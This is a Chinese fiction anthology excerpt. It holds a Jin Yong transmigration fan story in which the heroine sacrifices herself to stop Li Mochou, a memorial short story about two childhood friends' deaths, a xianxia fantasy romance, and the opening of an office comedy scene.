正苦苦劝说二人离开逃命之际，杨过却是凛然说道：“两位姑娘如此相待，实是感激无已。我们三人无论谁苟且逃生，心内都会不安，不如咱三人结伴同行。当真给那魔头追上时，三人拼一死战，是死是活，听天由命便了。”陆无双拍手道：“好，就是这样。”

蔡小青一时感动，却更是焦急。原著中杨陆二人自是平安无事，可现在加了自己这么个变数，那当真就无法控制局面了。而自己之前一步步都按照剧情走过来，也是不想改变历史，导致后面的结果剧变。

其实如果更自私一点，蔡小青甚至可以在自己还是幼女之际，就牢牢地跟在孩童时期的杨过身边，那以后未必会有小龙女、郭芙、陆无双这些变数了。可这样长成的杨过，还会是那个让少女时期的自己痴迷不已的杨过么？怕是会是另一个人了。

蔡小青沉吟半晌，只得先以奇门遁甲之术做自保之势，想着连那金轮法王尚且困住，赤练仙子未必就能破解。于是表姊妹俩拿了铁铲锄头，走出茅舍，搬土搬石，布置起来。忙了一个多时辰，隐隐听得远处鸡鸣之声。

蔡小青满头大汗，眼见所布的土堆与黄荆的乱石阵实在相差太远，心中暗自难过：“黄蓉当真是惊采绝艳的人物。不愧是金庸笔下最出彩的女性角色之一。唉，我这般肤浅自持，想以此粗陋土阵挡住那赤练魔头，那当真是难上加难了。”她怕陆无双与杨过气沮，也不明言，只暗自下了决心，如若有什么危险，自己便挺身挤去这条性命不要，也要护得二人周全。

于是急急推开了茅屋门，双颊晕红，走近榻边，只见杨过正呆呆发愣，顾不得多言，急促说道：“杨兄，我在门外所布的土阵实在太拙劣，殊难挡得住那赤练仙子。”说着从怀中取出那半块曾经护得她性命的李莫愁的定情锦帕，递给了他，又道：“若是给她冲进屋来，你就拿这块帕子给她罢。”

杨过见那锦帕，面上显出诧异之色，抬起头来，目光与蔡小青相接，灯下但见她泪眼盈盈，又羞又喜，正待相询，蔡小青陡然间面红过耳，低声道：“千万别让我表妹知道。”说罢翩然而出。

赠完锦帕，听得远处鸡声又起，蔡小青心里倒是淡定下来了，取了袖中玉箫，按箫以舒积郁，吹的是一曲“流波”。幽幽咽咽的箫声响了起来，箫声柔细，却无悲怆之意，隐隐竟有心情舒畅、无所挂怀的模样。茅屋之内隐隐传出杨过低吟相和之声，蔡小青却也不再担望，坦然奏曲。

正自出神，猛抬头，蔡小青突见土堆外站着一个身穿黄衫的道姑，右手拂尘平举，衣襟飘风，正是赤练仙子李莫愁到了。

站在蔡小青身畔的陆无双瞧见李莫愁，面露惊惧之色，娇躯大震，拔剑站起，正欲冲上去厮杀。蔡小青却觉李莫愁神色有异，怕内中别有隐情，便按住了陆无双拔剑的手。

只见李莫愁站着一动不动，只是侧耳倾听，脸上时悲时喜，神色变幻不定。蔡小青一寻思，心下了然，想是李莫愁听到箫歌相和，想起了少年时与爱侣陆展元共奏乐曲的情景，琴瑟和谐，幸福曾在。

这已是二十年前之事，此刻音韵依旧，却已是“风月无情人暗换”。李莫愁耳听得箫歌酬答，曲尽绸缪，蓦地面色凄楚；伤痛难禁，忍不住纵声大哭。

这一下陡放悲声，陆无双大出意料之外。她平素只见李莫愁严峻凶杀，哪有半点柔软心肠？怎么明明是要来报怨杀人，竟在门外痛哭起来？

蔡小青却是听她哭得愁尽惨极，回肠百转，不禁也心感酸楚。每个狠辣的魔女前半生其实都是个娇俏的少女，赤练仙子李莫愁也是如此。如果没有遇见陆展元，她会是古墓派正统的传人，《玉女心经》的传承者；如果陆展元不负心薄幸、另娶何沅君，那么她也会是如小龙女一般走出古墓获得爱情的幸福女子。

其实如李莫愁这般狠辣，都是期许过普通女子相夫教子的平凡生活。只是这些却是可遇而不可求，那些她们爱过的男子们没有给过她们这样的机会，只是用冷酷和背叛，逼迫着她们往狠厉决绝的路上越走越远，回不了头。

蔡小青心神撼动，箫声节拍便即散乱。却听李莫愁突然纵声而歌，音调凄婉，歌道：“问世间，情是何物，直教生死相许？天南地北双飞客，老翅几回寒暑？欢乐趣，离别苦，就中更有痴儿女。君应有语，渺万里层云，千山暮雪，只影向谁去？”

蔡小青和杨过的箫歌声本来充满愉乐之情，李莫愁此歌却词意悲切，声调更是哀怨，且节拍韵律与“流波”全然不同，歌声渐细，却是越细越高。蔡小青心神微乱，竟顺着那“欢乐趣”三个字吹出，等她转到“离别苦”三字时，已不自禁地给她带去。她慌忙转调，但箫韵清和，她内力又浅，吹奏不出高亢之音与李莫愁的歌声相抗，微一踌躇，便奔进室内，放下玉箫，坐在几边抚动瑶琴。杨过也放喉高唱，以助其势。只听得李莫愁歌声越转凄苦，程英的琴弦也是越提越高，铮的一声，第一根“徽弦”忽然断了。

蔡小青吃了一惊，指法微乱，瑶琴中第二根“羽弦”又自崩断。李莫愁长歌带哭，第三根“宫弦”再绝。蔡小青的琴箫都是跟黄药师学的，虽遇明师，毕竟年幼，造诣尚浅。李莫愁本来乘着对方弦断韵散、心慌意乱之际，大可长驱直入，但眼见茅屋外的土阵看似乱七八糟，中间显是暗藏五行生克的变化，她不解此道，在古墓内又曾累次中伏被创，不免心存忌惮，灵机一动，突然绕到左侧，高歌声中破壁而入。

#### 【玖】人生自是有情痴，此恨不关风与月

人面不知何处去，桃花依旧笑春风。

蔡小青知道杨过身上有伤，无法起身相抗，只有躺着不动，而自己料知与李莫愁动手也是徒然送命，当下把心一横，生死置之度外，调弦转律，弹起一曲“桃夭”来。这一曲华美灿烂，喜气盎然。她心中暗思：“我这穿越的世界总算是要到头了，能为他而死，也算是值得了。”目光斜向杨过瞧去。杨过对她微微一笑，蔡小青心中微甜微涩，暗唱：“桃之夭夭，灼灼其华……”琴声更是洋洋洒洒，乐音中春风和畅，花气馨芳。

李莫愁脸上愁苦之色渐消，却径直问陆无双道：“那书呢？到底是丐帮取去了不曾？”杨过却从怀中“五毒秘传”掏出扬给了她，说道：“丐帮黄帮主、鲁帮主大仁大义，要这邪书何用？早就传下号令，帮众子弟，不得翻动此书一页。”李莫愁见书本完整无缺，心下甚喜，又素知丐帮行事正派，律令严明，也许是真的未曾翻阅。

杨过又从怀中取出两片半边锦帕，铺在床头几上，道：“这帕子请你一并取去罢！”李莫愁脸色大变，拂尘一挥，将两块帕子卷了过去，忙忙地拿在手中，一时间思潮起伏，心神不定。

突然之间，李莫愁将两片锦帕扯成四截，说道：“往事已矣，夫复何言？”双手一阵急扯，往空地抽出，锦帕碎片有如梨花乱落。程英一惊，铮的一声，琴弦又断了一根。

李莫愁喝道：“叫！再断一根！”悲歌声中，瑶琴上第五根“角弦”果然应声而断。李莫愁冷笑道：“顷刻之间，要教你三人求生不能，求死不得，快快给我抱头痛哭罢。”这时琴上只剩下两根琴弦，蔡小青的琴艺本就平平，自是难成曲调。

李莫愁道：“快弹几声凄伤之音！世间大苦，活着有何乐趣？”蔡小青却是倔强，拨弦弹了两声，虽不成调，却仍是“桃之夭夭”的韵。律。李莫愁道：“好，我先杀一人，瞧你悲不悲痛？”这一厉声断喝，又崩断了一根琴弦，举起拂尘，就要往陆无双头顶击下。

杨过笑道：“我三人今日同时而死，快快活活，远胜于你孤苦寂寞地活在世间。英妹、双妹，你们过来。”程英和陆无双走到他床边。杨过左手挽住程英，右手挽住陆无双，笑道：“咱三个死在一起，在黄泉路上说说笑笑，却不强胜于这恶毒女子十倍？”陆无双笑道：“是啊，好俊俏，你说的一点儿不错。”

蔡小青面上温柔一笑，眼中泪光盈盈，轻轻握了一下杨过伸出的手，却马上把杨、陆二人推开，飞身抱住了正自轻怒的李莫愁。

“杨大哥，表妹，你们赶紧逃，待我牵制住李莫愁，你们赶紧逃命吧。”蔡小青紧紧抱着李莫愁不放，口中却是大声催促道。

“不，堂堂男子汉，岂能让一个姑娘为救我而丧命，我不走。”杨过的性格也是倔强固执，不管蔡小青怎么喊，却是不肯跟陆无双一起离去。

李莫愁不料给蔡小青抱了个正着，一时行动受制，顿时脸带寒霜，低声怒喝道：“你个臭丫头，快放开我，不然让你们三个生不如死，尝尽世间最痛苦的折磨。”

蔡小青却是摇摇头，回望杨过，神情凄楚：“你们快走吧，我昨晚已在此屋埋下炸药，引信正在那瑶琴之下，适才弦断之时，我已经点燃引信了，我拖住李莫愁，表妹你快带杨大哥走，不然要来不及了，切勿辜负我这番心意……”说完已忍不住掉下泪来。

陆无双眼睛一红，无奈，只得扯着杨过飞奔逃命，李莫愁却是又急又怒，发起狠来，一掌击在蔡小青后背，试图挣脱开来。

蔡小青只觉后背猛遭千斤重击，脊椎肋骨五脏都似散了架一般，痛得都快要昏过去了，但双臂如同铁箍一般，仍是牢牢抱住李莫愁不放。

引信“嗤嗤”燃烧的声音也到了尽头，只听“砰”的一声巨响，茅屋的地面仿佛绽放出一朵巨大的火焰之花，绚丽夺目，不可直视，周围的物体也纷纷随着这美丽的火花燃烧起来，如同一场盛大的宴会。

李莫愁自知已逃出无望，停了手，只是垂首看着蔡小青，低声问道：“你这样做值得么？”

蔡小青并不答话，只是微微一笑，嘴里鼻子里都有鲜血流出，她的意识越来越模糊，这时才想起来死了不一定能回到现实世界，九尾说的那个回到现实世界的条件必须是对杨过说“不愿意”。

额，现在已经来不及了吧……大概我就要这么死了呢，这种死法可真是任性啊。蔡小青慢慢闭了眼，松了手，缓缓滑倒在地上，耳边却陡然传来杨过的呼声：“英妹，你在哪里？咱三人说好要同生共死，你不能这样舍我们而去……你快回答我，咱要一起活着。”

蔡小青挣扎着睁开了眼，看见杨过竟又折返回来，在离她不远的地方，脸上满是焦急担心，正和陆无双一起冲进熊熊燃烧的火场。

“不，我不愿意。你的世界我只是个过客，但愿你会记得我……”

蔡小青轻声说道，眼角有泪水滑落。杨过当真是个好男人，只是落花有意，流水无情。他再好，却不是她的。山有木兮木有枝，心悦君兮君不知。以杨过聪明，又怎么会不知程英的心意。只是他的生命中先有了小龙女，对她的心意，也只能装作不知了。

人生自是有情痴，此恨不关风与月。

蔡小青的意识越来越模糊，在这个世界的隐忍暗恋，身上所受的剧痛等苦，身畔熊熊燃烧的大火，都扭成了一个五彩斑斓、光怪陆离的漩涡，声音、色彩、触觉，都不再真实。

不知昏迷了多久，蔡小青一睁眼，却只见九尾那张“王祖贤”的脸正笑眯眯地盯着自己，红唇轻启：“心情愉快，欢迎归来。”

“这多像是一个梦。”蔡小青疲惫地闭了眼，笑道。

### 就这样老了

S.A. 突袭

经历了高三那道鬼门关的考验，我考上了一所大学，但这是一所很普通的大学，普通得毕业就意味着失业，于是我毅然选择了休学。

刚休学的时候，我整天把自己关在家里，害怕见人，害怕见到别人那如刀如剑的目光。后来，我实在受不了了，便收拾了东西，要回老家，回那个普通的江南水乡。父母看到我背着行李，以为我要离家出走，死活不让我出去。最后，由于我的坚持，我妈就陪我回到了老家。

老家的河很美，我总对我妈说，我投河自尽死了也值。我妈总是严厉地呵斥着让我停止这样的想法。

我总是站在老家门口的小桥上，看桥下船来船往，任那柔和的风抚摸我的脸庞，快乐地流泪。我快乐，是因为我可以享受这么美的风景；我流泪，是因为我已告别了学生时代。

刚到老家的第二天，我接到了一个电话，是伟子打来的，他说他要走了，要去一个遥远的地方。

我说，我去送你。

他说，不用了。

沉默……

伟子是我幼时的玩伴，小学时的同学，初中时的舍友，高中时的同桌。也不知道我们为什么这么有缘，这回高考也都只考上了一所学校，是同一所普通大学。只不过，他家有钱，他可以混个大学毕业，而我则不可以，因为我家里没有那么多钱让我在一所毫无用处的学校里挥霍。

上幼儿园时，我和伟子就总是撅着屁股看地上的蚂蚁，躺在草坪上看天上的浮云或星星，有时还会因为一块面包而大打出手。可孩子毕竟是孩子，打完架之后很快就会和好如初。

上小学时，我们经常不完成作业，然后告诉老师，我们忘了带了。其后果就是老师让我们站在走廊里。那时伟子总会紧握着拳头，很认真地对我说，我一定要杀了她！我说，好呀，到时候我帮你收尸。

到了初中，我和伟子在同一个宿舍，而且是上下铺，我上他下。也不知那床是从哪个历史博物馆里偷的，我一动它就晃个不停。弄得伟子平常一迟到就对班主任说，雨霏昨晚一个劲地摇床，不让我睡觉。然后我的班主任就不分青红皂白地批我一顿，我比窦娥还冤呢！

那时我们虽然调皮捣蛋、不听话、不爱完成作业，但我们的成绩还是说得过去的，所以才考上了一所不错的高中。

在高中，我交了一个女朋友，她叫牧牧，很好听的名字，人长得也挺漂亮。伟子第一次见她时，竟瞅了半天，直到我狠狠地掐了他一下。

再后来，我和牧牧因事吵了一架，然后谁也不理谁。虽然不理，但我的心里却总是想着她。为此，我总是上课时被老师叫起来，问我一个问题，我说我不会，她便让我出去站着。伟子大力发扬助人为乐的传统美德，对我说，我们起码兄弟一场，你们的事，我帮你搞定！就这样，他开始“帮”我，最终使牧牧成了他的女朋友。

我本来听别人说过伟子和牧牧的传言，我不相信，直到那一天我看见伟子和牧牧牵着手走在大街上，我就知道，牧牧是伟子的了。于是那晚我喝得烂醉，在大街上狂吐不止，恰好碰见了伟子，他问我怎么了，我说我心痛。他夺去了我手中的酒，说，别喝了，今天你去我家睡觉，省得你爸妈生气。

我将酒夺回来，使劲地喝，他一拳打在我肚子上，然后抓着我的衣服用膝盖磕我的胸口。

我推开他，问，你为什么打我？

他回答说，为情所困，值得吗？

我说，那你说兄弟和情哪个更重要？

伟子一拳打在我脸上，我在地上翻了个身，只听到他说，你该清醒清醒了，兄弟才是最重要的！

我大声嚷嚷道，那你把牧牧还给我！

他愣住了，我站起身，摇晃地站立着，拍了拍身上的土，转身就走。朦胧中，我听到他说，雨霏，你都知道了？其实爱一个人并不是过错，原谅我，好吗？

我转身说，我现在不想见到你，你马上消失在我面前！

然后，我就什么也不记得了。

当我第二天醒来时，我发现我是睡在伟子的家里，伟子在我旁边坐着，见我醒了，便让我喝解酒茶，我问他，你不上课？

他笑笑说，今天星期天！

我也笑笑。

伟子的脸上突然显得异常忧伤，说，雨霏，昨晚……

我打断他的话说，昨晚的事情就让它过去吧，我们还是好兄弟。

说完，我冲他笑了笑。他也笑笑，说了声“谢谢”。我什么也没说，只是笑，但那笑下却隐藏了无比巨大的忧伤！

后来，我总是见到伟子和牧牧在一起开心地玩，一起去喝咖啡，一起去吃麦当劳，一起去滑旱冰，还有伟子骑单车送牧牧回家。每次见到他们在一起时，我总会躲开，有时他们看到了我，让我跟他们一起玩，我也会找个借口走掉，因为我怕我会当着他们的面哭出来，所以，我会躲到一个安静的角落里默默地哭。

我是一个外强中干的人，在别人看来，我是一个无论怎样都会笑的孩子。可在我的内心深处却有着无比酸涩的涟漪。我想牧牧跟着伟子会更好，我没有伟子那么大的胆量，在漆黑的夜里送牧牧回家；我也没有伟子那样宽大的肩膀，让牧牧可以依靠；我不能像伟子一样好好照顾她，因为我总是生病，我还需要别人来照顾我。

我宁愿让牧牧快乐地活，而我则快乐地流泪——为她的快乐而快乐，为她的离去而流泪。一切痛苦我都愿承担，只要牧牧过得好。伟子说我是个傻子，傻到在心爱的女孩打自己时都会关心她问她的手疼不疼。我没理他，因为我的确是这样的。

伟子每天早晨都会在牧牧家的楼下等她，然后一起上学。伟子也真够苦的，大冬天里也要等着，到牧牧出来时，他已变成了一个雪人。

我认为伟子对牧牧是真心的，要不然上次牧牧的手冻伤了，他也不会骑上单车，去各个药店里找最好的药，却因为忘了戴手套而把自己的手给冻伤了。每当看到伟子对牧牧所作的一切时，我总是很感动，我承认，那些都是我办不到的。我也感到欣慰，因为牧牧找到了属于她自己的幸福。

- 我很想你
- 因为我爱你
- 没你在身边
- 我便失去了力气
- 我一直都在相识的地方等你
- 可你早已远去
- 是否你已将我忘记
- 是否你已不再回忆
- 难道我对你的爱
- 你从没有留意
- 我会一直爱你
- 直到天荒地老
- 直到天地合一
- 哪怕你已不再美丽
- 我也不会放弃
- 爱你
- 决不是一朝一夕

朋友们总是祝福伟子，唯独我没有，因为让我祝我爱的人和另一个男人幸福，即使杀了我，我也办不到。虽然伟子抢走了我最爱的女孩，但我们的关系却没有因此而疏远。我们还会在一起玩，只是不会让牧牧在身旁。

伟子刚和牧牧在一起的时候，我不知道该怎么做，毕竟一个是我的兄弟，另一个是我心爱的人。最难舍难离要付出相当大的代价。这就好像站在一个岔道口，不知哪一条路能找到宝藏一样。可到后来，我看到牧牧和伟子在一起快乐的样子时，我决定不再去打扰她，不再让她不高兴。

寒来暑往，春去秋来，日子很快就过去了。

### 侠隐仙踪

转眼，我们已濒临高考。我已经习惯了在夜里偷偷地哭，伟子也好像一直觉得愧对于我，总是对我很好。

我和伟子的成绩很糟，糟得可以在年级排名的长榜中一眼找到，因为我们总是在最后。而牧牧的成绩却异常地好，好到可以用三根手指头表示她在市内的排名。为此牧牧总是让伟子好好学习，也总是教伟子做一些对于我们来说是天书的题，伟子在学会后就教我，就这样，我们共同提高。

高考很快就到了，我和伟子出乎意料地考上了大学，牧牧则考上了清华。

九月初，牧牧要去美国找她的父母，我和伟子去机场送她。她在临走前只说了句再见，就匆匆上路了。

我开玩笑说，你小子一定要把欠我的都还清再走。

伟子淡淡地说，这一世是不行了，下一世吧，我一定还清。

什么？我很吃惊地问，怎么了？

你不知道吗？伟子说，昨天是9月11日，牧牧乘坐的飞机撞上了五角大楼，她死了……

我感觉我心中的某样建筑“轰”的一声就倒了，眼前一片星光。

伟子说，我现在在我家楼顶，我要去找她了，你多保重！

他说完，我便听到了呼呼的风声，还有那东西破碎的声音。

我拿着电话使劲地喊，伟子！伟子！……可是信号已经中断，我放声大哭，仿佛看到了第二天的新闻“某男子从某某小区纵身跳下……”。

我走到小桥上，夕阳将河面映得通红，杨柳丝丝拂面，MP3中放着郝丽君的《我只在乎你》，“任时光匆匆流去我只在乎你，心甘情愿感染你的气息”。

我拿起一块石子，扔向水中，石子弹起又弹起，最终沉入水底。在它所经过之处留下了圈圈波纹。于是我想，人们总是希望自己的生活没有涟漪，可他们何尝知道，当他们不可能再有涟漪时，那便是他们的死期！

伟子、牧牧，你们走吧，黄泉之路不会孤独。

歌声中，我看到伟子和牧牧携手走向那完美的夕阳，还回头对我甜甜地笑……

> 总认为我们有缘  
> 如今却阴阳相间  
> 你们走得如此突然  
> 只留下一句再见  
> 虽然你们已成过眼云烟  
> 但却永远活在我的心间  
> 不知是否有一只鸿雁  
> 可以传递我的思念  
> 天堂中的宫殿  
> 是不是飞翔的极限  
> 那一只鸿雁  
> 能不能到达你们身边  
> 请你们告诉我  
> 死亡到底是怎样的概念  
> 你们是否怀念人间  
> 河中那盛开的白莲  
> 是上天对你们的祭奠  
> 被夕阳染红的半边天  
> 见证了你们的誓言

十多年过去了，拉登大叔也已经被击毙；可是心里的痛却怎么也挥之不去。于是写下了此文以祭奠儿时的玩伴，以及短暂而又美好的思念。

### 梦境

S.A.突袭

#### A. 莲儿

我叫莲儿，是仙界的魔幻师，我爱的人叫做残风，他是我们仙界的顶级魔幻师，他与仙界之王、三大法王不分上下。

他总是站在悬崖边，俯视万物。风悄悄地吹过，他的长发与黄色的幻风长袍随风摇摆，玉树临风，气宇轩昂。

我们的王老了，他想推荐残风做下一任仙界之王，可残风却拒绝了，他对王说，王，我知道，如果我做了王，我就会把心放在管理仙界之上，可是，谁去照顾莲儿？我需要她，她也需要我。如果让我在莲儿与王位之间选择的话，那我会毫不犹豫地说，我选莲儿。请原谅我辜负了您的厚望，为了不打扰您和以后的王，我决定，我从今以后退隐江湖，再也不问江湖之事。

就这样，残风带着我离开了万仙城，走进了红莲山谷。

#### a. 残风

我叫残风，是仙界五大魔幻师之一。我爱的人叫莲儿，她也是一个魔幻师，只不过她很善良，从来不学具有杀伤力的魔法，只学一些防身之法，比如说，她会万莲护身；也就是无数朵红莲在她身边旋转，一般的魔幻师根本不能伤到她。

我与莲儿相识时，她正在红莲山谷练习万莲护身，我当时还不知道那是什么法术，以为她要杀我，于是我使出一掌，从体内逼出一股真气，将她的红莲组合成一条火龙，那火龙身长数丈，围着她，张开大口，马上将要把她吞掉时，一条更大的火龙却将我的火龙吞掉，转而向我袭来。我一动不动地站在那里，也可以说是根本躲不过它，眼看它就要将我吞没了，我的幻风长袍却发出了强烈的光，那条火龙在瞬间消失了。

我大喊，是谁？是谁偷袭我？

我环顾四周，并没有其他人了，我捏了一把汗。

突然，一个声音从我背后传来，你就是残风？

我转身，发现是一个老婆婆，她白发苍苍，岁月的风霜已在她的额头上刻了一道又一道皱纹，从她能从我背后出现而我却毫无察觉来看，她的法术很高。

老婆婆你是谁？我问，你怎么会认识我？

她笑笑说，我是红莲圣女，至于我为什么会认识你，你没必要知道。哦，对了！你为什么要伤我的徒弟？来，莲儿，让我看看你伤到了没？

莲儿跑到婆婆身边，指着我说，这个坏蛋过来就要杀了徒儿，幸亏师傅及时赶到，要不徒儿早就没命了！

我说，我又不是故意的，我还以为你要杀我，于是便还手呀。再说了，我也不知道你这么漂亮，要不然，我宁愿死在你手里……

我的话还没说完，婆婆大喊，你们两个快离开这里！说完，她便踏着红莲飞走了。

几天后，我们在灭水崖发现了婆婆，她死了……

#### B. 莲儿

残风将我带进了红莲山谷，我想起了婆婆。一年了，为什么我们还查不出凶手？反而让凶手接连杀死了三大法王。

婆婆对我恩重如山，而我却还没来得及回报她，她就去了。我不禁哭了。

残风走过来，擦去我脸上的泪水，说，怎么，想婆婆了？

我点点头，什么都没说，接着哭。

残风说，好了，别难过了。我们要为婆婆报仇，而不是在这里哭，对吧？

我点点头，搂着残风的脖子，大哭特哭。

夜，深了。我和残风坐在悬崖边，一同欣赏着那皎洁的圆月，我真的希望我和残风永远不分开。

一阵风吹过，我不禁缩起了肩。这夜，好凉啊。

残风将他的幻风长袍脱下，披在我身上，问，后悔跟我来这里吗？

我摇了摇头，坚定地说，不后悔！

我真的不后悔，即使上刀山、下火海我也要跟着残风。我靠在残风的肩上，开心地笑了。

可以和我一起数星星吗？残风问。

我说，好吧！你看那颗真亮，就从它开始吧。一颗、两颗、三颗、四颗……数着数着，我便靠着残风的肩睡着了。

#### b. 残风

莲儿熟睡的样子很像一个婴儿，很可爱，真的。我实在不忍离开她。当初我放弃王位与她在一起隐居，其中隐藏了天大的秘密！

今天，我不得不离开她，为了她，为了仙界……

我用鬼魅幻影使莲儿靠在我身上，而我则站起身，移形换位去了万仙城。

#### C. 莲儿

当我醒来时，残风正看着东升的旭日发呆，我推了他一下，他依旧看着太阳，说，醒了？

我嗯了一声，他接着说，你看看这个吧。

说罢，他便张开手，从他手中出现了另一个……

残风的幻影。他对我说，对不起，莲儿，我骗了你。当初带你来这里是我们计划中的，其实我早就查出凶手是谁了，他就是三界魔王。

当初婆婆和各大高手联合才将他逼回魔界。那是一场非常激烈的战斗，各大高手一一倒下，最后只剩下现在的仙王、婆婆以及怀中抱着我的父亲了，这时的三界魔王已经筋疲力尽。父亲把他的幻风长袍脱下，将我裹在其中，然后交给了婆婆，让婆婆抱我藏起来，于是婆婆带着我离开了。

可当她再回来时，魔界大门已死死地关闭，而且还设下了封魔咒。大门外，仙王呆呆地立着，有两行热泪从他眼角流出，而我的父亲不知去了哪里。

婆婆问仙王，我的父亲在哪里。仙王告诉她，我的父亲使尽力气将三界魔王打到了门口，而门内的小魔却将父亲拉了进去，父亲在抢门的时候将三界魔王也拉了进去。在三界魔王进入门中的那一刹那，父亲将所有的法力都用了出来，将大门紧紧地关住，并设下了封魔咒。因为父亲的法力全部用尽，大概已经烟消云散了。

说完，仙王大声哭了出来，据说，那是他第一次哭，也是最后一次。

婆婆听后什么都没说，只是从那以后她天天守在魔界大门旁，她不相信父亲就这样去了，于是她尝试着解开封魔咒，可她每向封魔咒施一次法，她的手上便会滴下一滴血，她的血落地便变成一朵红莲，久而久之，这山谷就长满了红莲。可是，她始终没有将封魔咒解开。你知道吗？婆婆就是我的亲生母亲……

现在，我要走了，以后只有这个幻影来照顾你了。说完，它便从幻影手中消失了。

我立刻站起，说，走，我们去帮他！

幻影将我拦住，说，主人让我在这里保护你，而你去了只会送死，我也就完不成任务。如果你实在想去，那你先杀了我再说！

#### c. 残风

我进了万仙城，城中充满了杀气。很显然，三界魔王已经到了，我要赶快找到他，然后趁他不备杀了他。

到了王宫，只见尸体遍地，血流成河，看来恶战已经开始了。

进了仙王大殿，仙王躺在宝座边，已经奄奄一息了，他见到我来了，便说，你快走，有人向他泄漏了我们的计划，他现在正在找你，你还是带着莲儿去人间吧，仙界没救了。

原来你在这里，干吗，想走？没那么容易，本王今天要血洗仙界！

我转身看去，三界魔王站在大殿门口，双手鲜血淋淋，嘴角还留有一丝充满邪意的笑。

我打开魔法盾，防备着所有可能出现的袭击。三界魔王用手指着仙王道，没想到你这老东西还活着啊！说完，从他背后飞出了很多的蝙蝠，它们一齐向仙王扑去。

我立刻向仙王设下结界，蝙蝠飞不进去，转而来进攻我，可惜，它们只要一接触我的魔法盾便死去了。

我瞬息移动到三界魔王背后，准备给他致命一击，可冷不防我被他向后一脚踢中腹部，吐出了一口鲜血。

三界魔王大笑道，就凭你也想偷袭我？哼！不自量力。对了，这里太小了，我舒展不开，我看还是换个地方决一死战吧！

然后他便飞了出去，我擦去了嘴边的血，对仙王说，你安心在这里疗伤，我去对付他。便也跟了出去。

我们到了灵水崖边，崖下是滚烫的红色河水，掉下一块石头也会瞬间融化。

三界魔王说，就这里吧，如果我赢了，仙界归我，你也就死了；而如果你赢了，我死。当然，到时候这世界上也就不会有人是你的对手了。怎样，敢不敢比？

我还没有回答他，他便一掌打来，我迅速出拳去挡他那一掌。没想到，他太强了，我被打出数丈之远，全身经脉寸断，躺在地上欲动而无力。

#### D. 莲儿

不好，主人有难！幻影突然大喊道。然后他将我困在乾坤罩内，正要走。

我说，求你了，让我去吧。

他说，不行，绝对不行！

我说，那好吧，你去帮残风，我在这里等你们，可你也不能这样困着我呀，如果三界魔王来了，我怎么办？

他犹豫不决，我继续说，把这乾坤罩去掉吧，我也可以在三界魔王来这里之前逃掉。

他将乾坤罩去掉，我在乾坤罩消失的一瞬间，双手合十，红莲花瓣从中指间飞出，围着幻影形成了巨大的旋风，我说，这些东西并伤不到你，但你要脱身也不是易事。说完，我便踏上红莲，向万仙城飞去。

当我到达万仙城王宫时，我看到的是满地的尸体，走进大殿，仙王正在宝座旁的结界里疗伤，我走过去问他残风在哪里，他说，为了保证你的安全，我不能告诉你。

我说，那好吧，我自己去找。说着我吹了一声哨，召唤来了十只雪鸟，让它们去找残风，它们接到指令后立刻就去了。

不一会儿，一只雪鸟就飞了回来，它告诉我，有两个残风在灵水崖和三界魔王打斗。我很奇怪，为什么幻影能够这么快就出来了？难道他早就出来，只不过他知道我来了万仙城也不会有事，便假装出不来，等我走后再出来帮残风？好了好了，不管那么多了，赶快去帮他们吧！

#### d. 残风

我躺在地上，怎么也动不了，三界魔王走过来说，你知道吗？你父亲和你母亲都是这样死的，哈哈……

我顿时怒火冲心，血液以极快的速度流动起来，已经被打断的经脉也已恢复了正常。于是我又站了起来，捡起落在地上的我的紫灵法杖。

他很吃惊，因为我的经脉恢复速度让我都感到吃惊。可更让他吃惊的是，他丝毫没有察觉到

### 傀儡仙踪

幻影就在他身后！

幻影用乾坤罩将三界魔王困住，而我则用三昧真火去烤乾坤罩，顿时一股烧焦的味道迎面而来，三界魔王已经快不行了。

突然“哧”的一声，三界魔王将乾坤罩打破，从里面钻了出来，我冲上去，拉着已筋疲力尽的他向崖边跑，想把他推到崖下那滚烫的河水中，而他在这时却变成了一块冥石，将我朝他吸去。

我转身欲走，却无论如何也走不了，于是便被他牢牢地吸住了。这时，我的身体开始慢慢地融化，而功力却一点一点地向他身体里输送。我知道，当他将我的功力吸收完时，我会化成一摊血水，他也就会在仙界无敌！

我将翠灵法杖抛出，它变成了无数的樱花花瓣，它们又组成了一张弓和一支箭，我对幻影大喊：“快将它射过来，杀了冥石！”

幻影说：“如果要想杀了他，就必须从你的胸膛穿过，你也会死的！”

我说：“没关系，如果他不死，仙界就会永无宁日！”

幻影拉弓欲射，而这时莲儿飞了过来，她将弓和箭从幻影手中夺去。

我说：“莲儿，快点射箭，反正我也是死，还不如让我死而可以保全仙界！”

莲儿左手持弓，右手拿箭，站在原地说：“也许有别的办法！”

我说：“没有了，快射箭吧！”

莲儿还是站在那里，说：“不，我不相信只有这一个办法！”

我的功力已近衰竭，再不射恐怕真得就完了。于是我大喊：“莲儿，只有这一个办法，你必须得这么做，否则我会死不瞑目！”

莲儿抱头尖叫，然后将箭射出，我看到她流泪了。

那支箭穿过了我的胸膛，穿过了冥石，我们一起落入了冥水河……

### E.莲儿

当我将箭射出时，我哭了，残风，残风……

幻影拍拍我的肩，说：“主人已经去了，他希望你能好好地活下去，忘记今天的一切，我去了……”

说完幻影散成了漫天飞舞的樱花花瓣，簌簌地落下，落在我肩上，我感觉残风还活着，他拿着一件樱花长袍披在我肩上，对我说，注意身体……

### 灵情论坛（二）

> 如果你一时找不到我，请不要灰心丧气，一处找不到再到别处去找，我总在某个地方等候着你。  
> ——惠特曼

## 妖腰

网络运营部办公室里，蔡小青伸了个懒腰，舒展了一下快要僵硬掉的筋骨，关掉整理完的资料文件夹，惯性准备刷刷微博，在IE收藏夹里找到微博地址，正欲点的时候，蔡小青的手又僵住了。

犹豫了半晌，蔡小青咬咬牙，颤抖着打开微博，果然不出所料满屏都是九尾的@和留言，无一例外全都是同样一句话——“亲~~ 要继续第二次穿越寻情之旅么？包邮的哦亲，记得要给好评哦！亲！！？”

九尾的骚扰信息上次用的是“咆哮体”，上上次是“菊花体”，上上上次是“红楼体”，上上上上次是……这次居然换成恶心肉麻的“淘宝体”，蔡小青脑补了一下九尾用她那又甜又嗲的声音喊出这一个个“亲”，浑身鸡皮疙瘩掉了一地！

蔡小青愤愤地关掉了微博页面，微微叹了口气，这只风骚的狐狸真的是阴魂不散啊，为了完成她的功德，竟是这般热心执着得近乎于骚扰了。微博、QQ、邮箱、MSN、手机短信……蔡小青的一切联络方式九尾基本上是全程监控+骚扰，每天固定每个联系方式各100条信息，风雨无阻，从不间断。

